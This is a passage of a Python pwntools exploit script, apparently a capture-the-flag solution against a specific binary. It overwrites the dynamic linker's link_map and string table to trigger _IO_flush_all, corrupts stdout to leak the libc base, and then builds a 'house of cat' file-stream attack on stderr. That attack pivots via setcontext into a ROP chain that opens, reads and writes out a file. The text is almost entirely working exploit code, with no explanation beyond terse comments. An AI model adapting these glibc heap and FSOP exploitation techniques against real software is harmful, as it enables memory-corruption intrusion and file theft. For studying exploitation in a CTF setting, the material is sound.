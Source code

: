 ````python
        return ld.address + self.offset + 0x40 + tag * 8

ld.address = 0x32f000 - 0x10
libc.address = 0xf4000 - 0x10
binary_map = link_map(0x3b2e0)

# debug(p,"b *$rebase({})".format(0x14D1))
# debug(p,"b write")
p.send(p32(0xF0000))

# =============[ loop ]=========================
# write_real_addr ==> write@got + 0x70
# set size=0xF0000 ==> size = 0x0XXXX
# Strat Loop
# write@got != real_addr ==> call write AWAYLS lazy Binding 
logger("binary_map.l_addr()",binary_map.l_addr())
write(binary_map.l_addr(),"\x70")

# =============[ edit stdout ]==================
write(libc.symbols['_IO_2_1_stdout_'],p32(0xfbad1800))
write(libc.symbols['_IO_2_1_stdout_']+0x28,p8(0xff))

# ====[r_dubug.write ==> "_IO_flush_all"]=======
write(ld.symbols['_r_debug']+0x22,"_IO_flush_all\x00")

# =============[.strtab ==> r_dubug]============
# =============[call _IO_flush_all]=============
logger("binary_map.l_info(DT_STRTAB)",binary_map.l_info(binary_map.DT_STRTAB))
write_nosuccess(binary_map.l_info(binary_map.DT_STRTAB),"\xb8")
# call _IO_flush_all
# leak libc
p.recv(5)
libc_base = u64(p.recv(6).ljust(8,b'\x00'))-0x21ba70
logger("libc_base",libc_base)

# ================[fix write]===================
write(binary_map.l_info(binary_map.DT_STRTAB),"\x78")


# ===============[house of cat]=================
setcontext = libc_base+0x53a30+61
syscall = libc_base+0x0000000000091396
pop_rax = libc_base+0x0000000000045eb0
pop_rdi = libc_base+0x000000000002a3e5
pop_rsi = libc_base+0x000000000002be51
pop_rdx_rbx = libc_base+0x0000000000090529
_IO_wfile_jumps = libc_base+0x2160c0
heap = libc_base-0xf3ff0
stderr = libc_base+0x21a6a0

write(libc.symbols['_IO_2_1_stderr_']+0x28,p64(0xffffffffffffffff))
write(libc.symbols['_IO_2_1_stderr_']+0x40,p64(1))
write(libc.symbols['_IO_2_1_stderr_']+0x50,p64(heap)+p64(setcontext))# rdx
write(libc.symbols['_IO_2_1_stderr_']+0xa0,p64(stderr+0x30))
write(libc.symbols['_IO_2_1_stderr_']+0xd8,p64(_IO_wfile_jumps+0x30))
write(libc.symbols['_IO_2_1_stderr_']+0xd8+0x38,p64(stderr+0x40))

rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall) #open
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)
rop += p64(pop_rdx_rbx)+p64(0x30)*2+p64(pop_rax)+p64(0)+p64(syscall) #read
rop += p64(pop_rdi)+p64(1)+p64(pop_rax)+p64(1)+p64(syscall)          #write


````